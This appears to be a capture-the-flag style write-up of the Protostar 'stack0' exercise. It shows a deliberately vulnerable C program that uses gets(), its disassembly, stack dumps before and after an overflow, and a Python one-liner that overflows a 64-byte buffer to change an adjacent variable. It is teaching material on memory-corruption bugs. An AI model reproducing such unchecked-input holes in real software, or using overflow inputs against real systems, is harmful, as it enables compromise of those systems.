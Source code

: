 ```yaml
---
layout: default
---
```


Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

"main" function:
```asm
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```
From the asm of "main", we find that:
1. "<span style="color:blue">buffer</span>" occupies esp + 0x1c until esp + 0x58. It is supposed to be 64-byte long.
2. "<code style="color:green">modified</code>" occupies esp + 0x5c.

So, here are 96 bytes of memory starting at esp, before we input a value for "buffer":
>0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
>0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:blue">0xb7eada75</span>
>0xbffff760:     <span style="color:blue">0xb7fd7ff4</span>      <span style="color:blue">0x08049620</span>      <span style="color:blue">0xbffff778</span>      <span style="color:blue">0x080482e8</span>
>xbffff770:     <span style="color:blue">0xb7ff1040</span>      <span style="color:blue">0x08049620</span>      <span style="color:blue">0xbffff7a8</span>      <span style="color:blue">0x08048469</span>
>xbffff780:     <span style="color:blue">0xb7fd8304</span>      <span style="color:blue">0xb7fd7ff4</span>      <span style="color:blue">0x08048450</span>      <span style="color:blue">0xbffff7a8</span>
>xbffff790:     <span style="color:blue">0xb7ec6365</span>      <span style="color:blue">0xb7ff1040</span>      <span style="color:blue">0x0804845b</span>      0x00000000

```text
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:blue">0xb7eada75</span>
0xbffff760:     <span style="color:blue">0xb7fd7ff4</span>      <span style="color:blue">0x08049620</span>      <span style="color:blue">0xbffff778</span>      <span style="color:blue">0x080482e8</span>
0xbffff770:     <span style="color:blue">0xb7ff1040</span>      <span style="color:blue">0x08049620</span>      <span style="color:blue">0xbffff7a8</span>      <span style="color:blue">0x08048469</span>
0xbffff780:     <span style="color:blue">0xb7fd8304</span>      <span style="color:blue">0xb7fd7ff4</span>      <span style="color:blue">0x08048450</span>      <span style="color:blue">0xbffff7a8</span>
0xbffff790:     <span style="color:blue">0xb7ec6365</span>      <span style="color:blue">0xb7ff1040</span>      <span style="color:blue">0x0804845b</span>      0x00000000
```
and after:
```text
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      0x41414141
0xbffff760:     0x42424242      0x43434343      0x44444444      0x45454545
0xbffff770:     0x46464646      0x47474747      0x48484848      0x31313131
0xbffff780:     0x32323232      0x33333333      0x34343434      0x35353535
0xbffff790:     0x36363636      0x37373737      0x38383838      0x00000078
```

buffer value:
```bash
python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + 'x'" > input.txt
```
stack0 < input.txt

[back](./)

